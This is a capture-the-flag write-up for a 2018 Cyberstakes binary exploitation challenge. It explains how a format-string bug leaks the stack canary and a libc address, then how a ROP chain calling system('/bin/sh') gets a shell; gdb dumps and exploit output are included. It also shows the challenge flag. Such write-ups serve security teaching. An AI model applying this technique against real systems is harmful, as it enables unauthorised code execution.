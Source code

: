 # Want some PIE? - Points: 200 - (Solves: 22)

**Category**: Binary Exploitation

**Description**: It seems the enemy has figured out how to turn on ASLR, but
they still don't know how to properly code. Compromise the server and steal the
flag. Listening on challenge.acictf.com:1752, binary: [registrar](registrar),
libc: [libc.so](libc.so)

**Hints**:
- Have you completed 'Say as I say, not as I do' yet? Solve that one first.
- Since ASLR is enabled, you'll need to find a way to leak some interesting
  details about where things are located in memory.
- Even with ASLR in place, libc is still a good source of ROP gadgets and
  utility functions.

## Solution

A quick look at the provided server binary in IDA shows that it is almost
identical to the one in `Say as i say, not as i do`. Checksec indicates that
PIE is enabled this time, and the hints state that ASLR is on.

```
$ checksec registrar
[*] '/home/user/ctf-writeups/2018-cyberstakes/want_some_pie/registrar'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

ASLR doesn't worry me much, as we already have a way to leak arbitrary memory
from the last problem, and we also have a way of looping the program so we can
trigger the vulnerability multiple times without the memory map changing.

However, I figured it would likely be easier to solve this problem with the
intended solution - use the format string to leak the stack canary, then smash
the stack and keep the cookie intact to trigger a short ROP chain.

During my testing, I set a breakpoint on call to printf triggering the format
string vulnerability. Sending any input, we can examine the stack for potential
pointers to interesting locations. Specifically, we're looking for the offset
to the stack cookie (to bypass stack protection) and the offset to any pointer
on that stack that points within libc (to bypass ASLR).

```
$ gdb registrar
Reading symbols from registrar...(no debugging symbols found)...done.
(gdb) start
Temporary breakpoint 1 at 0xc0d
Starting program: /home/user/ctf-writeups/2018-cyberstakes/want_some_pie/registrar

Temporary breakpoint 1, 0x000055987adedc0d in main ()
=> 0x000055987adedc0d <main+4>:	48 83 ec 70	sub    rsp,0x70
(gdb) info proc mapping
process 13875
Mapped address spaces:

          Start Addr           End Addr       Size     Offset objfile
      0x55987aded000     0x55987adef000     0x2000        0x0 /home/user/ctf-writeups/2018-cyberstakes/want_some_pie/registrar
      0x55987afee000     0x55987afef000     0x1000     0x1000 /home/user/ctf-writeups/2018-cyberstakes/want_some_pie/registrar
      0x55987afef000     0x55987aff0000     0x1000     0x2000 /home/user/ctf-writeups/2018-cyberstakes/want_some_pie/registrar
      0x7f712d60a000     0x7f712d7ca000   0x1c0000        0x0 /lib/x86_64-linux-gnu/libc-2.23.so
      0x7f712d7ca000     0x7f712d9ca000   0x200000   0x1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
      0x7f712d9ca000     0x7f712d9ce000     0x4000   0x1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
      0x7f712d9ce000     0x7f712d9d0000     0x2000   0x1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
      0x7f712d9d0000     0x7f712d9d4000     0x4000        0x0
      0x7f712d9d4000     0x7f712d9fa000    0x26000        0x0 /lib/x86_64-linux-gnu/ld-2.23.so
      0x7f712dbd6000     0x7f712dbd9000     0x3000        0x0
      0x7f712dbf9000     0x7f712dbfa000     0x1000    0x25000 /lib/x86_64-linux-gnu/ld-2.23.so
      0x7f712dbfa000     0x7f712dbfb000     0x1000    0x26000 /lib/x86_64-linux-gnu/ld-2.23.so
      0x7f712dbfb000     0x7f712dbfc000     0x1000        0x0
      0x7ffd39ee1000     0x7ffd39f02000    0x21000        0x0 [stack]
      0x7ffd39f62000     0x7ffd39f65000     0x3000        0x0 [vvar]
      0x7ffd39f65000     0x7ffd39f67000     0x2000        0x0 [vdso]
  0xffffffffff600000 0xffffffffff601000     0x1000        0x0 [vsyscall]
(gdb) b *(0x55987aded000 + 0xd0b)
Breakpoint 2 at 0x55987adedd0b
(gdb) c
Continuing.
Please enter your register code name:
aaaa
Attempting to register code name:

Breakpoint 2, 0x000055987adedd0b in main ()
=> 0x000055987adedd0b <main+258>:	e8 60 fc ff ff	call   0x55987aded970 <printf@plt>
(gdb) x/20gx $rsp
0x7ffd39eff120:	0x00007ffd39eff278	0x000000012d61a410
0x7ffd39eff130:	0x00007ffd39eff240	0x00007f712d9ebeef
0x7ffd39eff140:	0x0000000a61616161	0x0000000000000000
0x7ffd39eff150:	0x0000000000000000	0x0000000000000000
0x7ffd39eff160:	0x0000000000000000	0x0000000000000000
0x7ffd39eff170:	0x0000000000000000	0x0000000000000000
0x7ffd39eff180:	0x00007ffd39eff270	0x4f5b98ec56995100
0x7ffd39eff190:	0x000055987adedd90	0x00007f712d62a830
0x7ffd39eff1a0:	0x0000000000000000	0x00007ffd39eff278
0x7ffd39eff1b0:	0x0000000100000000	0x000055987adedc09
```

Examining the stack dump above, we notice what looks like a canary at address
0x7ffd39eff188, and a pointer into libc at 0x7ffd39eff198. Since the first 6
arguments are passed in registers per the linux amd64 calling convention, the
format values at offset 0-5 are also in registers. Counting the pointers
starting at 6, the canary is the 19th argument to printf, and the libc pointer
is the 21st. We can leak these values by using the "%19$p" and "%21$p" format
specifiers. Since the libc pointer is the return address from `main` back into
`__libc_start_main`, we can lookup the offset of this return address in libc,
and compute libc base from there.

Since we've leaked both the stack cookie and a libc pointer, we can now send a
ROP chain that will call `system("/bin/sh")`. To do this, I dumped the ROP
gadgets from the given libc with ROPgadget, and found a gadget to move the
stack pointer to rdi. This will allow us to specify our first argument on th
stack before calling system.

Our ROP chain therefore looks as follows:

```
pop rax                     ; Move system() into rax
<system>
mov rdi, rsp ; call rax     ; Set rdi to "/bin/sh" and call system()
"/bin/sh"
```

We can then construct our payload for `gets()` in such a way that the stack
canary is preserved, but we still gain execution and spawn a shell. See this
short pwntools [script](solve.py) for a solution.

```
$ ./solve.py
[*] '/home/user/ctf-writeups/2018-cyberstakes/want_some_pie/libc.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenge.acictf.com on port 1752: Done
[*] Leaking stack cookie and libc base
[*] cookie     : 0x9bc0e31940e1b300
[*] libc base  : 0x7fb4fa281000
[*] libc system: 0x7fb4fa2c6390
[*] Sending ROP payload
[*] Switching to interactive mode

$ id
uid=1028(want-some-pie-_0) gid=1029(want-some-pie-_0) groups=1029(want-some-pie-_0)
$ ls -l
total 1852
-r--r----- 1 hacksports want-some-pie-_0      33 Nov 30 12:31 flag.txt
-rw-rw-r-- 1 hacksports hacksports       1868984 Nov 30 12:31 libc.so
-rwxr-sr-x 1 hacksports want-some-pie-_0   13528 Nov 30 12:31 registrar
-rwxr-sr-x 1 hacksports want-some-pie-_0     122 Nov 30 12:31 xinet_startup.sh
$ cat flag.txt
ACI{b33d86d499b53dcddf2948ff069}
```

I wish I had taken this route on the first problem, as it would have likely
worked without modification on both problems.
